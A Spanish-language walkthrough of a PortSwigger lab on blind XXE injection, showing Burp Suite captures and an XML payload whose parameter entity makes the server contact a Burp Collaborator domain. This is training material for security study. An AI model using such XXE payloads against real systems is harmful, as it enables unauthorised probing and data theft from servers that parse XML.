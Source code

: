 ```yaml
---
title: "Blind XXE with out-of-band interaction via XML parameter entities"
description: "Laboratorio de Portswigger sobre XXE Injection"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Blind XXE with out-of-band interaction via XML parameter entities
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función de `Check stock` que analiza la entrada XML, pero `no muestra valores inesperados` y `bloquea` las `solicitudes` que contienen `entidades externas regulares`. Para resolver el laboratorio, debemos utilizar una `entidad` de `parámetro` para que el `analizador XML` realice una `búsqueda DNS` y una `solicitud HTTP` a `Burp Collaborator`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-4/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-4/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-4/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

La da un `error` al `enviar` la `petición`, esto se debe a que `no` podemos `llamar` a una `entidad` desde los campos existentes, en este caso la `entidad` declarada es `xxe`

![](/assets/img/XXE-Injection-Lab-4/image_4.png)

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este dominio obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`

![](/assets/img/XXE-Injection-Lab-4/image_5.png)

